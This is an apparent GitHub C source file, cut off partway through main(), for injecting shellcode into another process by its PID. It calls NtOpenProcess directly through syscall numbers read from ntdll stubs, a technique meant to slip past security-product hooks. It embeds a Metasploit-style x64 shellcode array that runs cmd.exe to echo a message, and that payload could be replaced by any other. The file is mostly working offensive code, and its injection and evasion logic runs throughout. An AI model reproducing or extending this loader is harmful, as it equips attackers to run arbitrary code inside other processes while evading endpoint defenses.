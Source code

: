 ```c
#include "main.h"

char Shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x4b\x20\x22\x65"
"\x63\x68\x6f\x20\x44\x69\x72\x65\x63\x74\x20\x53\x79\x73"
"\x74\x65\x6d\x63\x61\x6c\x6c\x73\x20\x77\x69\x74\x68\x20"
"\x62\x65\x6b\x6f\x6f\x22";

size_t ShellcodeSize = sizeof(Shellcode);

DWORD GetSSN(HMODULE ModuleName, LPCSTR ProcName) {
    printf("\n***** %s *****\n", ProcName);
    DWORD sysCallNumber = 0;
    UINT_PTR targetNtFunction;

    targetNtFunction = (UINT_PTR)GetProcAddress(ModuleName, ProcName);
    if (targetNtFunction == 0) {
        printf("%s handle retrieval failed Error Code: 0x%lx\n", ProcName, GetLastError());
        return -1;
    }

    sysCallNumber = ((PBYTE)(targetNtFunction + 0x4))[0];
    printf("SSN number for the %s successfully received! 0x%lx\n", ProcName, sysCallNumber);

    return sysCallNumber;
}

int main(int argc, char* argv[]) {
	if (argc < 2) {
		printf("Usage: .\\program <PID>\n");
		return 1;
	}
	DWORD PID = atoi(argv[1]);

    HANDLE HandleProcess = NULL;
	HANDLE HandleThread = NULL;
	PVOID RemoteBuffer = NULL;
	HMODULE NTDLLAddress = GetModuleHandleW(L"ntdll.dll");
	CLIENT_ID CID = { (HANDLE)PID, NULL };
    OBJECT_ATTRIBUTES ObjAttr = { sizeof(ObjAttr),  NULL };
	NTSTATUS Status = STATUS_SUCCESS;

	NtOpenProcessSSN = GetSSN(NTDLLAddress, "NtOpenProcess");
	Status = My_NtOpenProcess(&HandleProcess, PROCESS_ALL_ACCESS, &ObjAttr, &CID);
```